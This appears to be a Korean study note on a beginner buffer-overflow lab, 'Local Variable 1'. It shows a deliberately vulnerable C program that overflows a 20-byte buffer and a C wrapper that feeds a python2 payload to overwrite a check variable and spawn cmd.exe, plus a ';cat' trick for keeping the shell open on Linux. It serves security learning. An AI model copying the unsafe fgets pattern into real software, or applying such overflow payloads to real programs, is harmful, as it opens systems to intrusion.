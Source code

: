 # Local Variable 1

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
#include <stdio.h>
int main()
{
	int crap;
	int check;
	char buf[20];
	fgets(buf, 48, stdin);
	dumpcode((unsigned char *)buf, 100);
	if (check == 0xbadc0ded)
	{
		system("cmd.exe");
	}
	return 0;
}
```



<br>



### Result

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print \'A\'*20 + \'\\xed\\x0d\\xdc\\xba\'\"";
	char *fname = "C:\\Users\\roj\\Downloads\\local_var_1.exe";

	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

- cmd.exe가 실행은 되나 유지되고 않고 바로 꺼짐

- Linux에서 실행할 경우 ';cat'을 붙여서 유지 가능
